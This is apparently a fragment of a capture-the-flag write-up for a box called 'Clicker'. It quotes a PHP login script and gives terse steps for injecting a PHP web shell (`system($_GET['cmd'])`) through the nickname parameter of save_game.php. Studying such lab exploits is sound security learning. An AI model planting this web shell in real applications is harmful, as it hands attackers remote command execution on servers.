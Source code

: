 - analyse nickname field for account info: shown can be configed

```
<?php
session_start();
include_once("db_utils.php");

if (isset($_POST['username']) && isset($_POST['password']) && $_POST['username'] != "" && $_POST['password'] != "") {
	if(check_auth($_POST['username'], $_POST['password'])) {
		$_SESSION["PLAYER"] = $_POST["username"];
		$profile = load_profile($_POST["username"]);
		$_SESSION["NICKNAME"] = $profile["nickname"];
		$_SESSION["ROLE"] = $profile["role"];
		$_SESSION["CLICKS"] = $profile["clicks"];
		$_SESSION["LEVEL"] = $profile["level"];
		header('Location: /index.php');
	}
	else {
		header('Location: /login.php?err=Authentication Failed');
	}
}
?>
```

- register a new user -> uuu:0
- save_game.php -> **param config** -> change **nickname** from authenticate.php -> nickname with one cmd invoke -> `<?php system($_GET["cmd"]);?>`

![image-20231123015040227](./Clicker.assets/image-20231123015040227.png)

- POC: nickname changed

![image-20231123015154079](./Clicker.assets/image-20231123015154079.png)
